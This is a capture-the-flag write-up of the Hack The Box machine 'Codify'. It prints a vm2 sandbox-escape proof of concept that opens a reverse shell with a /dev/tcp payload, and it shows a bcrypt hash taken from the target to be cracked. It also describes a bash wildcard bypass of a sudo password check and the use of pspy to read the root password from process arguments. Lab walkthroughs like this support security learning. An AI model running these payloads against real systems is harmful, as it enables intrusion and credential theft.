 ```yaml
---
title: HTB Codify Writeup
date: 2023-11-24 04:15:16 +0600
categories: [Linux, Easy]
tags: [htb] 
toc: true    
---
```


![Codify Pwned](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_pwned.png "Pwned haha!!")

# Introduction
What's up!! Red Teamers. In this post we will try to solve the linux machine **Codify**. It is rated as easy and the machine is from **Open Beta Season III**. 

# Enumeration
Starting with the nmap scan...... 

```bash
sudo nmap -sS -T4 -n -v -A 10.10.11.239 > nmap_discovered_ports
```

What do we have here??

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http        Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
8080/tcp open  http-proxy?
```

The IP redirects to `http://codify.htb/`. So we need to add the IP and hostname in the hosts file. For linux, it's `/etc/hosts` and for windows, it's `c:\Windows\System32\Drivers\etc\hosts`.

Then we get ...

![Home Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/home_page.PNG)

It says it's a simple web application that allows you to test your Node.js code easily. There is also a about page if you notice. From about page we got something interesting.

![About Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_about.PNG)

We found the library that was used to build this sandbox. It says The `vm2` library is widely used and trusted tool for sandboxing javascript. Just hold onto that, will you?

And... last but not least, the code editor.

![Code Editor](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/editor.PNG)

# Foothold 

Remember that `vm2` library?? If you do some googling, I'm sure you will bump into these resources from [Github](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) and [Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100).

Now use the POC javascript code to get a reverse shell. You can generate reverse shells in here [revshells](https://www.revshells.com/).

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -i >& /dev/tcp/IP/PORT 0>&1").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

You'll get the shell in no time.

# Lateral Movement
Now that you're in as `www-data`, first stabilize the shell. 

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z(bg)
$ stty raw -echo;fg
$ export TERM = xterm
```
As we are in as `www-data`, we should see what we have in the web server. A sqlite db file was found in `/var/www/` directory. And we found a credential of a user named 'joshua'.

```plaintext
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

It's a bcrypt hash. We can use either `hashcat` or `john` to crack this. It won't take long whichever you use. Upon cracking the password, you can use the password to login as `joshua` via ssh.

![Got joshua](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/joshua.png)

Now you have the user flag.

# Priviledge Escalation 

Run the command `sudo -l`...

![permissions](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/sudo-l.png)

You can run `/opt/scripts/mysql-backup.sh` as root. Let's see the code here.

![mysql_backup.sh](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/mysql_backup_sh.png)

It takes an input password for root and compares them with `.creds` in `root` directory. Then it has mysql commands to backup databases. Kinda strange that it uses password in the command as plaintext. To get to that, we have to bypass the validation first. Do you know the comparison operations of bash?

![Bash Comparisons](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/bash_comp.png)

You can read briefly [here](https://tldp.org/LDP/abs/html/comparison-ops.html).

To be exact , if double brackets are used in string comparison, you can use regex or pattern matching there. And in the script, double brackets are used. So if you put `*` as input, it will be a correct password cuz `*` matches everything including the required password.

![root_en_route](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/root_on_route.png)

And the script runs. But how can we see the password from those mysql commands that's backing up the databases? Well, we can use [pspy](https://github.com/DominicBreuker/pspy). 

It says "*pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea*".

So login to ssh with another terminal. Then run pspy in one terminal and the script in other as sudo. You'll see the password in no time. You may have to run the script multiple times.

![pspy](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/pspy.png)

Now that you have the password, let's try to login as root. Annnnd, voila, we are root. You know where is the root flag.


#### Happy Hacking :)





